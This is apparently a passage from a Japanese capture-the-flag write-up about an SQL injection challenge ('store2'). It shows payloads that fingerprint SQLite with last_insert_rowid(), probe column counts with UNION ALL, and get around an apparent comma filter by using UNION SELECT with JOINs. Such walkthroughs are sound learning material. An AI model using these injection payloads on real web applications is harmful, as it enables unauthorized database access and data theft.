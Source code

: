 <img src="./img/angstrom/store2.png">

また以下sqliteの関数を使用しても通るため、DBがsqliteとわかる。
```
' or last_insert_rowid()=last_insert_rowid()
```

カラム数を特定するために`union all`で以下クエリでカラム数を変えながらsubmitするがエラー。
```
' union all select null, null, null; -- 
```
サーバ側になんらかの検証処理があると仮定する。カンマを使わない形で再度カラム数を変えながらsubmitしていくと3つでヒット。
```
' or 1=1 UNION SELECT * FROM (SELECT sqlite_version()) AS a JOIN (SELECT 'hoge') AS b JOIN (SELECT 'fuga') AS c; -- 
```